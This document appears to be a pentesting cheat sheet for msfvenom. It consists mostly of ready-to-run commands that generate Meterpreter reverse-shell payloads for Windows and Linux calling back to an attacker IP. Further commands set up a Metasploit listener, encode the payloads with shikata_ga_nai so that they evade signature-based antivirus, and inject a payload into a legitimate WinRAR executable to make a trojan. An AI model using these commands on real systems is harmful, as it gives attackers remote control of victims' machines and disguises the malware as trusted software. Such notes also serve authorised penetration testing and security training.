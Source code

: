 # Msfvenom

Command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.





```
msfvenom --list payloads
# Example (STAGED PAYLOAD): /windows/x64/meterpreter/reverse_tcp
# Example (NON-STAGED PAYLOAD): /windows/x64/meterpreter_reverse_tcp

msfvenom --list formats



# Generate payload

## Windows 32 bits
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f exe > payloadx86.exe

## Windows 64 bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f exe > payloadx64.exe

## Linux x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f elf > payloadx86

## Linux x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f elf > payloadx64

```




## Multi Handler (msfvenom + metasploit)
Listen

```
> use multi/handler
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST
> set LPORT
> run # or  `exploit -j` (to run as background job)


```








## Encoding Payloads With Msfvenom

Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.

We can evade older signature based AV solutions by encoding our payloads.



```
msfvenom --list encoders
Example: x86/shikata_ga_nai (both for Linux and Windows payloads)


msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe > encoded_payloadx86.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -e x86/shikata_ga_nai -f exe > encoded_payloadx86.exe



```















## Injecting Payloads Into Windows Portable Executables

Not all portable executable allows a successful injection.

The WinRAR portable works fine.

```
# Example with WinRAR
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe -x wrar602.exe  > winrar.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe -k -x wrar602.exe  > winrar.exe # error with -k flag!






```


